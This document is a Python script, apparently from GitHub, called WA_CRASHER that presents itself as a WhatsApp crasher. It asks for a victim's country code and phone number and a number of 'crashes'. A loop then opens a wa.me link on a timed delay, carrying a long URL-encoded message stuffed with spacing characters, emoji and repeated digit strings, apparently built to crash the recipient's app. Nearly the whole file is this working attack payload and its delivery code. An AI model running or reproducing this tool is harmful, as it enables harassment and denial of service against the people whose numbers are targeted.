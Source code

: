 # WA_CRASHER
# Copyright (c) 2022  NARUTOPLAYSHACKER (NARUTOPLAYSHACKER) 

  

 # Permission is hereby granted, free of charge, to any person obtaining a copy 

 #of this software and associated documentation files (the "Software"), to deal 

 #in the Software without restriction, including without limitation the rights 

 #to use, copy, modify, merge, publish, distribute, sublicense, and/or sell 

 #copies of the Software, and to permit persons to whom the Software is 

 #furnished to do so, subject to the following conditions: 

 # 

 #The above copyright notice and this permission notice shall be included in all 

 #copies or substantial portions of the Software. 

 # 

 #THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR 

 #IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, 

 #FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE 

 #AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER 

 #LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, 

 #OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE 

 #SOFTWARE. 

 ################################### 

 #   NARUTOPLAYSHACKER             # 

 #Project : WA_CRASHER             # 

 #Type    : Whatsapp - Crasher     # 

 ################################### 

 import os 

 import colorama 

 import time 

 import sys 

 from colorama import  Fore,Style 

 R = Fore.RED 

 B = Fore.BLUE 

 G = Fore.GREEN 

 C = Fore.CYAN 

 Y = Fore.YELLOW 

 M = Fore.MAGENTA 

 W = Fore.WHITE 

 try: 

         import colorama 

 except ModuleNotFoundError: 

         print("Requests is not Installed") 

         os.system("pip install colorama") 

  

 logo = f""" 

 {C}                                                                                                       

      

  __    __  _         ___   __    _    __          __  __   

 / / /\ \ \/_\       / __\ /__\  /_\  / _\  /\  /\/__\/__\  

 \ \/  \/ //_\\     / /   / \// //_\\ \ \  / /_/ /_\ / \//  

  \  /\  /  _  \   / /___/ _  \/  _  \_\ \/ __  //__/ _  \  

   \/  \/\_/ \_/___\____/\/ \_/\_/ \_/\__/\/ /_/\__/\/ \_/  

              |_____|                                       

                                                     

 {W} 

 NARUTOPLAYSHACKER  NARUTOPLAYS HACKER                                                                                                        

 """ 

 os.system('clear') 

  

 def main(): 

         os.system('clear') 

         print(logo) 

         print() 

         cncode=int(input(f'{G}[{Y}+{G}]{M} Enter Country Code WithOut "+" eg.91 {C}=> ')) 

         print() 

         num=input(f"{G}[{Y}+{G}]{M} Enter the Victim's Phone number\n\n{C}=> {cncode}  ") 

         print() 

         crash=int(input(f'{G}[{Y}+{G}]{M} Enter the number of crashes {W}(Max 15 per 30min) \n\n{C}=> ')) 

         combnum = f"+{cncode}{num}" 

         print() 

         Finalcall=input(f'{G}[?]{W} Do You Want To Change NO.{W}{combnum} {R}(Y/N)\n\n{C}=> ') 

         if Finalcall == 'Y'  or Finalcall == 'y': 

                 main() 

         elif Finalcall == 'N' or Finalcall == 'n': 

                 os.system('clear') 

                 print(f"{G}[{Y}+{G}]{M}Crashing Whatsapp on No. : +{cncode}{num} ...") 

                 time.sleep(5) 

                 link = (f"""xdg-open https://wa.me/{combnum}/?text=XPHANTOM%20%F0%9F%92%A3%20TeaM%20XPH4N70M%F0%9F%92%A3%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%0A%F0%9F%98%88Follow%20Me%20On%20Insta%20%40XPHANTOM_PH4N70M%F0%9F%A4%A3%0A%F0%9F%94%A5WA_CRASHER%201%20WA_CRASH%20%F0%9F%98%88%0A*NULL%0A*9999999999*%20*X*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*XPHANTOM%20CRATER%20MR%20PH4N70M%20X%C2%B2*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%F0%9F%93%8CBY%E2%80%A2MR%E2%80%A2KILLER-XPHANTOM%F0%9F%92%A3%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM* 

 """) 

         for i in range (crash): 

                 print() 

                 print(f"{Y}[✓] Sending Now\n") 

                 print(f"{G}[{Y}+{G}]{M}Applying 40sec delay...") 

                 link1 = os.system(link) 

                 time.sleep(40) 

                 if link1 == 0: 

                         print(f"{G} Successful") 

                         pass 

                 else: 

                         print(f"{R}[×] Failed  ") 

                 time.sleep(0.2) 

         return main() 

  

 def MSG(): 

         print(Y) 

         YTC = input("Have U Join Us ? (Y/N): ") 

         if YTC == 'Y' or YTC == 'y': 

                 print(G) 

                 print("Thank You For Joining Us...\n") 

                 time.sleep(4) 

                 print("Initializing tool...") 

                 time.sleep(4)                 

                 print(W + "\n\n") 

                 main() 

         elif YTC == 'N' or YTC == 'n': 

                 print("") 

                 os.system("xdg-open https://hackerxphantom.blogspot.com/p/join-whatsapp-group.html") 

                 time.sleep(8) 

                 os.system("xdg-open https://hackerxphantom.blogspot.com/p/join-whatsapp-group.html") 

                 time.sleep(3) 

                 print(W + "\n\n") 

                 main() 

  

 MSG()
